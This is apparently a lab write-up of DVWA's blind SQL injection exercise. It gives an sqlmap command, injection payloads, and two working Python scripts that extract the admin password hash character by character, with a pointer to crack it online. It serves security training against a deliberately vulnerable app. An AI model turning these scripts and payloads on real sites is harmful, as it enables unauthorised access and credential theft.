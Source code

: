 # DVWA - SQL Blind Injection

## Description

**Vulnerability:** SQL Blind Injection    
**Impact:** Levaraging SQL Blind Injection to get the data that we aren't supposed to know.

---

## LOW Security Level
The SQL Blind Injection is basically harder for us to retreive our desired data when comparing to normal SQL Injection. You can see this code from the source:

```php
$exists = false;
if ($result !== false) {
    try {
        $exists = (mysqli_num_rows( $result ) > 0);
    } catch(Exception $e) {
        $exists = false;
    }
}
```

And whatever we give `id` param it just have 2 results:

![Guide image](./screenshots/1.png)

or:

![Guide image](./screenshots/2.png)

For example: we doesn't know any about the databases we can use `sqlmap` in order to get available databases:
```bash
sqlmap -u "http://localhost/DVWA/vulnerabilities/sqli_blind/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=..." --dbs
```

You can get the databases:

![Guide image](./screenshots/3.png)

Also, we can test by using this payload `1' AND user = 'admin' #` we received `User ID exists in the database.` and now we can brute-force the password.

I create an exploit Python script, it is simple, the script will brute-force each character of the MD5 hash password, if character exists in the password the website will return `User ID exists in the database.` until we get the full hash password.

```python
import requests
import string

url = 'http://localhost/DVWA/vulnerabilities/sqli_blind/'
cookies = {
    'security': 'low',
    'PHPSESSID': '<YOUR_PHPSESSID>'
}

SUCCESS_TEXT = "User ID exists in the database."

charset = string.ascii_lowercase + string.digits
received_hash = ""

print("Starting blind SQL injection attack (brute-force admin password)...")

for i in range(1, 33):
    for char in charset:        
        payload = f"1' AND SUBSTRING((SELECT password FROM users WHERE user = 'admin'), {i}, 1) = '{char}' #"

        params = {
            'id': payload,
            'Submit': 'Submit'
        }

        try:
            response = requests.get(url, params=params, cookies=cookies)

            if SUCCESS_TEXT in response.text:
                received_hash += char
                print(f"received_hash: {received_hash}")
                break

        except requests.exceptions.RequestException as e:
            print(f"\n[!] An error occurred: {e}")

print(f"\n\nFull Hash: {received_hash}")
```

![Guide image](./screenshots/4.png)

Decrypt that hash MD5 password with CrackStation.net

![Guide image](./screenshots/5.png)

## MEDIUM Security Level
This MEDIUM level source code is a little different:
```php
$query  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
```

The `user_id` now takes number instead of string and also in the UI we cannot write our script, there is just a select. We can use `sqlmap` like LOW Security Level or use this payload in Burp Suite character by character:
```
1 AND SUBSTRING((SELECT database()), 1, 1) = 'd'
```

## HIGH Security Level
The HIGH Security Level use `id` input is cookie instead of param so i have modified my used code in LOW Security Level:

```python
import requests
import string

url = 'http://localhost/DVWA/vulnerabilities/sqli_blind/'
cookies = {
    'security': 'high',
    'PHPSESSID': '<YOUR_PHPSESSID>',
    'id': ''
}

SUCCESS_TEXT = "User ID exists in the database."

charset = string.ascii_lowercase + string.digits
received_hash = ""

print("Starting blind SQL injection attack (brute-force admin password)...")

for i in range(1, 33):
    for char in charset:        
        payload = f"1' AND password LIKE '{received_hash + char}%"

        cookies['id'] = payload

        try:
            response = requests.get(url, cookies=cookies)

            print(f'{received_hash + char}')

            if SUCCESS_TEXT in response.text:
                received_hash += char
                print(f"received_hash: {received_hash}")
                break

        except requests.exceptions.RequestException as e:
            print(f"\n[!] An error occurred: {e}")

print(f"\n\nFull Hash: {received_hash}")
```

But remember that the code will run slow since the new source code has this logic:
```php
if( rand( 0, 5 ) == 3 ) {
    sleep( rand( 2, 4 ) );
}

// User wasn't found, so the page wasn't!
header( $_SERVER[ 'SERVER_PROTOCOL' ] . ' 404 Not Found' );

// Feedback for end user
echo '<pre>User ID is MISSING from the database.</pre>';
```

So when the character is incorrect it may `sleep` so it is slower.

![Guide image](./screenshots/4.png)

## Resources
- https://en.wikipedia.org/wiki/SQL_injection
- https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet
- https://owasp.org/www-community/attacks/Blind_SQL_Injection
- https://bobby-tables.com/
